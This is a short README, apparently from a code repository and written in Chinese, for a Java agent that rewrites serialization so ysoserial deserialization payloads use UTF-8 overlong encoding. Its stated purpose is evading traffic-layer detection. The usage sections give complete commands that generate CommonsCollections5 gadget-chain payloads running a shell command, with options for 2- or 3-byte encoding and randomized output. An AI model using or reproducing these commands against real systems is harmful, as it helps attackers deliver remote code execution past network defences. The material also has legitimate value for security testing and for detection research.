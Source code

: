 # utf8 overlong agent

使用 agent 替换序列化中的`writeUTF`和`writeUTFBody`函数，从而实现在反序列化时生成utf8 overlong数据，绕过流量层检测。



# 用法

在生成反序列化payload工具启动时添加 javaagent 参数即可

```bash
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```



![image-20240423164153836](./assets/image-20240423164153836.png)



可以使用base64编码一下，然后拷贝出来使用

![image-20240423164533367](./assets/image-20240423164533367.png)



默认采用随机混合2、3字节的utf8 overlong编码，每次生成的payload都不一样

![image-20240423164808031](./assets/image-20240423164808031.png)



若想固定使用2或3字节utf8 overlong，指定agent参数即可：

```bash
# 2 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=2 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"

# 3 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=3 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```





# 参考

https://en.wikipedia.org/wiki/UTF-8

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

https://github.com/Whoopsunix/utf-8-overlong-encoding

https://t.zsxq.com/ToFaL

https://t.zsxq.com/Yg2cc
